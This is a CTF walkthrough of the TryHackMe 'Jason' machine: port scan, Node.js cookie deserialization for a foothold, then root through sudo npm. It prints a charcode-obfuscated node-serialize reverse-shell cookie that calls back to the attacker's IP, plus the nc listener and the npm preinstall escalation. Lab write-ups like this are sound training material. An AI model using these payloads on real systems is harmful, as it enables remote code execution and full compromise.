

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/jason)  | Easy  |  [elbee](https://tryhackme.com/p/elbee)  |


## Reconn

Starting as in every CTF, we launch `nmap` against the machine.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.237.12 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-12 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```
Good! We found a web server running on port `80`!

Let's go directly to it!


It's just a page created in `NodeJS` that show us the email that we used.

But... We have a session cookie!



Maybe we can decode it to see what's inside of it...

```bash
╰─ lanfran@parrot ❯ echo "eyJlbWFpbCI6ImFkbWluQGVtYWlsLmNvbSJ9" | base64 -d                                                        ─╯
{"email":"admin@mail.com"}% 
```

Great!!! We know that this cookie stores the email that we use as an input!

## Foothold - User

Googling for some deserialization exploit for NodeJS, I found [this site](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) where they explain the exploit very good!

In resume we will need create a NodeJS reverse shell, serialize it, and encode it in base64 to use it as our `session` cookie!

[Here it's the file to create the reverse shell's code](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

And after getting the code, you can use the [online node-serialize](https://npm.runkit.com/node-serialize) library to serialize your payload! [Here](https://runkit.com/embed/g49fa5tg1ozl) it's a template on how should like your code.

Also dropping you the code below!

```js
var y = {"email": function(){eval(String.fromCharCode(your_payload))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
```

After that, don't forget to add the last () at the end of the payload, as they explain you in [this post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
.png)

Your serialized code should look similar to this:
```js
{"email":"_$$ND_FUNC$$_function email() {\n          eval(String.fromCharCode(10, 118, 97, 114, 32, 110, 101, 116, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 110, 101, 116, 39, 41, 59, 10, 118, 97, 114, 32, 115, 112, 97, 119, 110, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 115, 112, 97, 119, 110, 59, 10, 72, 79, 83, 84, 61, 34, 49, 48, 46, 57, 46, 52, 46, 49, 49, 55, 34, 59, 10, 80, 79, 82, 84, 61, 34, 49, 51, 51, 55, 34, 59, 10, 84, 73, 77, 69, 79, 85, 84, 61, 34, 53, 48, 48, 48, 34, 59, 10, 105, 102, 32, 40, 116, 121, 112, 101, 111, 102, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 61, 61, 32, 39, 117, 110, 100, 101, 102, 105, 110, 101, 100, 39, 41, 32, 123, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 105, 116, 41, 32, 123, 32, 114, 101, 116, 117, 114, 110, 32, 116, 104, 105, 115, 46, 105, 110, 100, 101, 120, 79, 102, 40, 105, 116, 41, 32, 33, 61, 32, 45, 49, 59, 32, 125, 59, 32, 125, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 99, 108, 105, 101, 110, 116, 32, 61, 32, 110, 101, 119, 32, 110, 101, 116, 46, 83, 111, 99, 107, 101, 116, 40, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 80, 79, 82, 84, 44, 32, 72, 79, 83, 84, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 115, 112, 97, 119, 110, 40, 39, 47, 98, 105, 110, 47, 115, 104, 39, 44, 91, 93, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 34, 67, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 112, 105, 112, 101, 40, 115, 104, 46, 115, 116, 100, 105, 110, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 111, 117, 116, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 101, 114, 114, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 111, 110, 40, 39, 101, 120, 105, 116, 39, 44, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 111, 100, 101, 44, 115, 105, 103, 110, 97, 108, 41, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 101, 110, 100, 40, 34, 68, 105, 115, 99, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 111, 110, 40, 39, 101, 114, 114, 111, 114, 39, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 101, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 101, 116, 84, 105, 109, 101, 111, 117, 116, 40, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 44, 32, 84, 73, 77, 69, 79, 85, 84, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 125, 10, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 59, 10));\n        }()"}
```
_Don't forget the last ()!!!! Otherwise the payload won't work!_

After that, encode it to base64 and use it as a cookie!

Refreshing the page, _while listening in the desired port_, we should now have a reverse shell as Dylan!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.117] from (UNKNOWN) [10.10.237.12] 43016
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0[REDACTED]c

```
## Root

Great! Let's escalate to root!

Some normal reconn give us powerful info!

```bash
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

Our user can run `npm` as `root`!

Using [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) we can easily escalate to root!

```bash 
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.mskP1rW5qW
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2[REDACTED]e
```

And we rooted the machine!

That's all from my side, hope you find this helpful!